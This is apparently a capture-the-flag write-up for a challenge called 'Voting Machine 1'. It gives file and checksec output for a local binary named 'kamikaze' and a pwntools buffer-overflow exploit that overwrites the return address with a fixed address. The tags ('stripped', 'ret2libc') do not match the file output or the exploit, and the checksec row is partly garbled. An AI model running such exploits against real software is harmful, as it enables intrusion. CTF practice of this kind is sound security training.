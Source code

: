 # Voting Machine 1

file: `#x86_64` `#stripped`  
vuln: `#bof`  
soln: `#ret2libc`  
  
* File
```sh
$ file kamikaze 
kamikaze: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, for GNU/Linux 3.2.0, BuildID[sha1]=0e647f48bd36f15e866166910d10dd173fb0fcf6, not stripped
```
  
* checksec.sh
```sh
$ checksec.sh --file kamikaze 
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX enabled    Not an ELF file   No RPATH   No RUNPATH   kamikaze

```
  
* exploit
```python
from pwn import *
from sys import argv
from time import sleep

context.log_level = "debug"

binfile = "./kamikaze"

elf = ELF(binfile)

if len(argv) >= 2 and argv[1] == "d":
    p = gdb.debug(binfile, '''
        break *0x0
        continue
    ''')
else:
    p = process(binfile)

payload = b""
payload += b"A" * 10
payload += p64(0x400807)

p.recvuntil("Vote: ")
p.sendline(payload)

p.recvuntil("Thanks for voting!\n")
print(p.recvline())

#p.interactive()

```
